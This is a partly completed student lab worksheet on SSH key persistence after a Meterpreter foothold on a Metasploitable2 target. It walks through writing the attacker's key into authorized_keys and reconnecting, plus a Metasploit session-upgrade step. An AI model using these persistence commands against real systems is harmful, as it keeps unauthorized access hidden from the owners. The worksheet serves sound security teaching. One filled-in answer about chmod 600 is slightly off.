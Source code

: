 # 📝 Student Worksheet – SSH Persistence After Initial Foothold

## Objective  
In this lab, you will learn how to maintain access on a compromised Linux system by setting up **SSH key-based persistence** after gaining your first shell foothold (e.g., via Meterpreter).

**IMPORTANT** You must have a Meterpreter session to your target as a pre-requisite for this worksheet!

---

## Step 1 – Generate SSH Keys (on Kali)  
We first create an RSA key pair (public + private key) to authenticate later.

```bash
ssh-keygen -t rsa -b 2048 -f ./id_rsa -N ""
```

✅ **Checkpoint:**  
1. Which two files were generated? (e.g., `id_rsa`, `id_rsa.pub`)?
- Answer: id_rsa, id_rsa.pub
2. Which file should never be shared? (private key or public key?)
- Answer: Private key.

---

## Step 2 – Upload Public Key to Target  
From your Meterpreter session, upload the public key:

```bash
upload id_rsa.pub /tmp/id_rsa.pub
```

✅ **Checkpoint:**  
3. Where is the public key stored on the target?
- Answer: /home/kali/id_rsa.pub --> /tmp/id_rsa.pub

---

## Step 3 – Configure Persistence on Target  
Open a shell inside Meterpreter:

```bash
shell
```

Now run these commands **one at a time**:

```bash
mkdir -p ~/.ssh
cat /tmp/id_rsa.pub >> ~/.ssh/authorized_keys
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
rm /tmp/id_rsa.pub
exit
```

✅ **Checkpoint:**  
4. What does `chmod 600 ~/.ssh/authorized_keys` do?  
- Answer: This command enables read-write permission but does not allow to execute. 

---

## Step 4 – Connect Back with SSH  
On Kali, use the private key to connect:

```bash
ssh -i ./id_rsa -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa <username>@<target-ip>
```

- **Username:** Found by running `whoami` inside the foothold shell (e.g., `www-data`)  
- **Target IP:** Found on Metasploitable2 using:

```bash
ifconfig
```

✅ **Checkpoint:**  
5. What username did you gain access as? 
- Answer: www-data  
6. What is the target IP?
- Answer: 192.168.56.102

**Note:** Type `yes` if prompted about host fingerprinting.  

---

## Step 5 – Persistence with Metasploit (Optional)  
You can also manage SSH persistence via Metasploit.

1. Start Metasploit:  
   ```bash
   msfconsole
   ```

2. Configure the module:  
   ```bash
   use auxiliary/scanner/ssh/ssh_login_pubkey
   set rhost <target-ip>
   set USERNAME www-data
   set KEY_PATH ./id_rsa
   set SSH_KEYFILE_ALGS +ssh-rsa,ssh-dss
   run
   ```

3. List sessions:  
   ```bash
   sessions -l
   ```

4. Upgrade shell session to Meterpreter:  
   ```bash
   sessions -u <session-id>
   ```

5. Interact with the new session:  
   ```bash
   sessions -i <new-session-id>
   ```

✅ **Checkpoint:**  
7. What session ID was upgraded?  
- Answer:
8. Why might upgrading to Meterpreter be useful?
- Answer:

---

## Reflection Questions
9. Why is SSH persistence more reliable than keeping only a Meterpreter shell?
- Answer:  
10. What security controls could prevent an attacker from using this technique?  
- Answer: 

---

⚠️ **Ethics Reminder:**  
This technique is for **educational purposes only**. Never attempt persistence on a system you do not own or have explicit permission to test.  

